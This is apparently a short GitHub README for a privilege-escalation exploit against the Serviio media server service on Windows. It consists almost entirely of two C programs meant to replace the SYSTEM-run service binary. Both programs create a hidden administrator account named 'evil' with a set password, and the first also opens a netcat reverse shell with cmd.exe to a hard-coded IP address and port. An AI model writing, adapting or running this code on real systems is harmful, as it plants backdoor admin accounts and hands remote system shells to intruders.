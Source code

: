 ![](W4key.gif)

# ServiioService_PrivEsc
privilege escalation for Serviio running insecure file permissions on services that run as nt authority\system

```
#include <stdlib.h>

int main ()
{
	int i;
    i = system ("net user evil Ev!lpass /add");
	i = system ("net localgroup administrators evil /add");
    i = system ("cd C:\\Tools\\practical_tools ");
	i = system ("nc.exe 192.168.119.199 4444 -e cmd.exe");

	return 0;
}
```

# ServiioService_PrivEsc - Second example 
```
#include <stdlib.h>
int main ()
{
	int i;
    i = system ("net user evil Ev!lpass /add");
	i = system ("net localgroup administrators evil /add");
	return 0;
}
```
